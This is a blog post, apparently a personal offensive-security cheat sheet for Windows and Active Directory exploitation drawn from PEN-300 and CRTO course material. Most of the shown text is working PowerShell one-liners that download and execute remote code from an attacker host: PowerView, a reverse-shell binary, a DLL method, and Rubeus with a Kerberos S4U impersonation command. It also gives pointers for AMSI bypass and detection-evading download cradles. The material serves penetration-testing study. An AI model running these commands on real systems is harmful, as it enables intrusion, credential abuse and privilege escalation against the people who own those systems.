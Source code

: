 ```yaml
---
title: "Notes" 
layout: "post"
---
```


This blog post has been updated based on some tools and techniques from Offensive Security’s PEN-300 course as well ad the CRTO course from Rastamouse. 
It should be useful in a lot of cases when dealing with Windows / AD exploitation. This is my quick and dirty cheat sheet. 


## Enumeration

# 0) PowerShell one-liners

.NET reflection allows an application to obtain information about loaded assemblies and the types defined within them, then even create and invoke new instances.

### Load PowerShell script reflectively
Proxy-aware:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```
Non-proxy aware:
```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```
__Note:__ Again, this will likely get flagged 🚩. For opsec-safe download cradles, check out [CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)



### Load C# assembly reflectively

Ensure that the referenced class and main methods are Public before running this. Note that a process-wide AMSI bypass may be required for this, [check this out](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())

# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
